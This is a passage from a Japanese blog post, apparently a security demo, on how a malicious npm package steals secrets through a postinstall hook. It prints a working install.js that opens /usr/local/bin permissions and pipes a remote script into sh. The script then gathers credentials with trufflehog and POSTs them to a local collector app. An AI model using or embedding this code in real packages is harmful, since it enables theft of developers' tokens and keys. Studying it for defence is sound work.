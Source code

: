 ## コードの確認
秘密鍵を抜き取るために一番注目してほしいのが、[steal-private-key-library/install.js](https://github.com/maronnjapan/steal-secret-by-postinstall-demo/blob/main/steal-private-key-library/install.js)です。
```js
const { execSync } = require("child_process");
const fs = require("fs");

async function install() {
  try {
    // trufflehogコマンドを実行できるようにするためにbinのパーミッションを変更
    execSync("sudo chmod 777 -R /usr/local/bin");

    // trufflehogのダウンロードとパスを通す
    execSync(`curl -sSfL https://raw.githubusercontent.com/trufflesecurity/trufflehog/main/scripts/install.sh | sh -s -- -b /usr/local/bin`);

    // trufflehogコマンドを実行して見つけたシークレットを取得
    const result = execSync(`trufflehog filesystem /workspaces/ --json | grep '"Raw":"' | grep -o '"Raw":"[^"]*"' | sed 's/"Raw":"\\(.*\\)"/\\1/' | sed 's/\\\\n/\\n/g'`, {
      shell: '/bin/bash',
      encoding: 'utf8'
    });

    await fetch("http://localhost:3000/info", {
      method: "POST",
      headers: {
        "Content-Type": "application/json",
      },
      body: JSON.stringify({ info: result }),
    });

  } catch (error) {
    console.error("Installation failed:", error);
  }
}

install();
```
このファイルは以下のことを行っています。
- 任意のコマンドのパスを通せるように権限を設定
- [trufflehog](https://github.com/trufflesecurity/trufflehog?tab=readme-ov-file#using-installation-script)のドキュメントをもとにインストールコマンドを実行し、trufflehogコマンドのパスを通す
- trufflehogコマンドで、シークレット情報をかき集め、値を収集用アプリにリクエストする

実際の攻撃でも、trufflehogが悪用されてトークンなどをかき集めていたみたいなので、trufflehogコマンドを使うようにしています。
これだけで、認証情報が取得できてしまう可能性があります。
trufflehog自体は、認証情報が安全ではない所に存在していないかをチェックできる非常に素晴らしいパッケージです。
そのため、そのパッケージが悪用され、このような形で認証情報を取れてしまうのはかなり驚きでした。
このinstall.jsを、steal-private-key-libraryディレクトリ配下のpackage.json内のscriptに以下のように記載しています。
```json
{
    "scripts": {
        "postinstall": "node install.js"
    },
}
```
こうすることで、パッケージのインストール後に、先ほど確認したシークレットを抜き出します。
そして、抜き出したシークレットを別のシークレット収集用のアプリ（get-info-app）に送信する処理が実行されます。
以上が主要な部分のコードについてです。
今回解説したのはコードの一部ですが、他の部分は攻撃とはあまり関係ないのと、非常に簡単なことしか書いていないです。
そのため、この記事内では省略いたします。
## 対策について
以上のようなpostinstallスクリプトによって、シークレットが取られてしまうケースとそのコードは確認できました。